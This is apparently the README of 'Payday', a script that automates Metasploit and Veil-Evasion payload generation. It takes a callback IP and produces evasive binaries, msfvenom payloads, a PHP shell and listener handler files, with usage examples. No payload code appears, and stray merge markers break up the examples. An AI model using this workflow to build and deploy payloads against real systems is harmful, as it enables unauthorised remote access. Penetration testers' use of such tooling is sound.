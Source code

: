 # Payday
Payload generator that uses Metasploit and Veil. Takes IP address input and then builds payloads automatically.
Calls Veil framework with supplied IP address and creates binaries and handlers.
Uses msfvenom to create payloads and writes resource handler files in the same way that Veil does.

The --php option creates a pshell.txt that automatically removes the comments at the start of the file so you can use this without the need to edit.


-->
Update the path to the Veil Evasion Script
>> The tool now has error checking that show the directory structure and parses the veil config file.
-->


Examples:

# Generate Metasploit Payloads
payday.py --msf --ip 1.1.1.1

=======
# Generate Metasploit Payloads with custom port
payday.py --msf --ip 1.1.1.1 --port 7777

# Generate Veil Payloads
payday.py --veil --ip 1.1.1.1

# Generate Veil Payloads with custom port
=======
payday.py --veil --ip 1.1.1.1 --port 7777

# Generate Multiple
payday.py --veil --msf --php --ip 1.1.1.1

# Generate PHP Payload
payday.py --php --ip 1.1.1.1

# Clean Out Directories
payday.py --clean

# Specify custom output directory
payday --veil --msf --output /path/to/custom --ip 1.1.1.1

# Clean custom output directory
payday --output /path/to/custom --clean

